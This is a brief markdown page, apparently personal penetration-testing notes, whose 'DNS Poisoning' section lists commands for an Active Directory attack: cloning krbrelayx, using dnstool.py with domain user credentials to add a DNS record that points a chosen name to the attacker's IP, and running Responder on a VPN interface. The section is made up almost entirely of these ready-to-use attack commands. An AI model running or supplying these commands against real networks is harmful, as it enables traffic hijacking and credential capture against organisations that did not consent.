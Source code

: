 ```yaml
---
title: Network
permalink: /Network
---
```


## DNS Poisoning

```git clone https://github.com/dirkjanm/krbrelayx```  
##  create a new record pointing to my adress  
```python3 dnstool.py -u '$DC\$User' -p '$pass' -a add -r '$wanted_domain' -d $my_ip $BOX_ip```
responder -I tun0 -A
